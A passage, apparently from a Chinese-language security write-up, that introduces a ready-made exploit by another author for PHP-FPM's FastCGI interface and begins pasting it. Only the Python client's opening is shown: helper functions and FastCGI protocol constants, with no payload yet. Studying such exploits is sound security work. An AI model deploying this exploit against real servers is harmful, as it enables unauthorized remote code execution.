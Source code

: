 然后就需要exp了，exp p神也帮我们写好了(本来看完了p神的协议分析想要自己写一下，发现emmmmm能力欠缺），简直是一条龙服务，贴出来：

```php
import socket
import random
import argparse
import sys
from io import BytesIO

# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client

PY2 = True if sys.version_info.major == 2 else False


def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])


def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)


def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')


def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s


class FastCGIClient:
    """A Fast-CGI Client for Python"""

    # private
    __FCGI_VERSION = 1

    __FCGI_ROLE_RESPONDER = 1
    __FCGI_ROLE_AUTHORIZER = 2
    __FCGI_ROLE_FILTER = 3

    __FCGI_TYPE_BEGIN = 1
    __FCGI_TYPE_ABORT = 2
    __FCGI_TYPE_END = 3
    __FCGI_TYPE_PARAMS = 4
    __FCGI_TYPE_STDIN = 5
    __FCGI_TYPE_STDOUT = 6
    __FCGI_TYPE_STDERR = 7
    __FCGI_TYPE_DATA = 8
    __FCGI_TYPE_GETVALUES = 9
```